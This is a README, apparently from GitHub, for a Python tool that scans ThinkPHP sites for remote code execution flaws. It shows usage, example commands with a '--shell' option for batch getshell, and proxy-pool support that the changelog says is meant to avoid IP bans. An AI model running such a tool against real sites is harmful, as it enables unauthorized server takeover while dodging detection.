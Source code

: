 # ThinkphpRCE
Thinkphp  rce扫描脚本，附带日志扫描

- 2020.06.18 更新
1. 增加使用代理池功能
2. 增加输出到文件功能
3. 去掉了一些使用syetem函数的payload和重复payload（导致IP容易被封，且必要性不是很大）
4. 优化了一些代码，多个网站的时候显示进度

- 使用方法(python3.x)
```
usage: thinkphp_rce.py [-h] [-u URL] [-f FILE] [-p PROXY] [--shell]

Thinkphp Scan

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Start scanning url -u xxx.com
  -f FILE, --file FILE  read the url from the file
  -p PROXY, --proxy PROXY
                        use HTTP/HTTPS proxy
  --shell               try to get shell
```
```
python3 thinkphp_rce.py -u http://192.168.76.248/thinkphp520/public/ 

python3 thinkphp_rce.py -h host.txt

python3 thinkphp_rce.py -u http://192.168.76.248/thinkphp520/public/ --shell //批量检测和getshell

python3 thinkphp_rce.py -u http://192.168.76.248/thinkphp520/public/ --proxy proxy.txt //使用代理池（http/https）
```
- proxy.txt 
```
127.0.0.1:8080
114.107.150.215:46213
```# thinkphp-rce
